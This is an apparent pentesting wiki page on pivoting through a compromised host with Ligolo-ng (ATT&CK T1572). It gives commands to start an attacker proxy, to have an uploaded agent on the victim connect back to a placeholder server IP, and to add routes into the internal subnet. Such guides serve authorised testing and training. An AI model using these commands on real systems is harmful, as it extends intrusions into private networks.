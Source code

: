 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - Technique T1572
---
```


# TLS Tunneling (Ligolo-ng)

## Theory

[Ligolo-ng](https://github.com/nicocha30/ligolo-ng) (Golang) is a network pivoting tool that allows us to establish tunnels from a **reverse TCP/TLS** connection using a **tun interface** (without the need of SOCKS).&#x20;

It utilizes a local proxy server and remote agents to make process tunneling from remote hosts simple and easy to manage. It has features other tools lack, such as building a network interface in the system userland that does not require elevated privileges to establish and **encrypt VPN tunneling**.&#x20;

{% hint style="info" %}
Using ligolo-ng, we can perform SYN scan or send ICMP packets trought the created interface. (in contrast with SOCKS pivoting techniques like with [Chisel](portfwd.md#chisel) or [SSH](portfwd.md#ssh-tunneling)).
{% endhint %}

## Practice

{% tabs %}
{% tab title="Using Ligolo-ng" %}
{% hint style="info" %}
Before using it, you should first [Setup Ligolo-ng](tls-tunneling-ligolo-ng.md#setup).
{% endhint %}

First, start the proxy server on the Attacking Host or Jump Box:

```bash
# Use in self-signed mode
# if -laddr is not specified, default is 0.0.0.0:11601 
./proxy -selfcert -laddr 0.0.0.0:<LISTENING_SVR_PORT>

# Use a custom certificate
./proxy -certfile <cert.pem> -keyfile <key.pem>
```

On the compromised host, after uploading the agent, we use the following command:

```bash
# Connect if server is in self-signed mode
./agent -connect <LIGOLO_SVR_IP>:<LISTENING_SVR_PORT> -ignore-cert

# Connect
./agent -connect <LIGOLO_SERVER_IP>:<SRV_LISTENING_PORT>
```

When the agent connect back to the server, we must enumerate its network as follow:

```bash
# Choose the agent
ligolo-ng » session

# Enumerate network
[Agent : pwned@target] » ifconfig
[...]
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens224                         │
│ Hardware MAC │ 00:50:56:86:dd:bd              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 10.10.10.63/24                 │
└──────────────┴────────────────────────────────┘
```

Take note of interesting agent interfaces that may be use for pivoting, and add the route on the proxy/relay server. In this example we'll do as follow

```bash
# Linux
$ sudo ip route add 10.10.10.0/24 dev ligolo

# Windows
> netsh int ipv4 show interfaces

Idx     Mét         MTU          État                Nom
---  ----------  ----------  ------------  ---------------------------
 25           5       65535  connected     ligolo
   
> route add 10.10.10.0 mask 255.255.255.0 0.0.0.0 if [THE INTERFACE IDX]
```

Finally, start the tunnel on the ligolo proxy server:

```bash
[Agent : pwned@target] » start
```

Done ! We can now access the `10.10.10.0/24` agent network from the proxy server.
{% endtab %}

{% tab title="Setup" %}
[Ligolo-ng](https://github.com/nicocha30/ligolo-ng) fisrt need to be configured. We need to create a tun interface on the Proxy Server (Attacking Host, or Jumb Box):

```bash
# Linux
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up

# Windows
# You need to download the Wintun driver and place the "wintun.dll" in the same folder as Ligolo (make sure you use the right architecture).
# https://www.wintun.net/
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://github.com/nicocha30/ligolo-ng/tree/v0.4.4#building--usage" %}
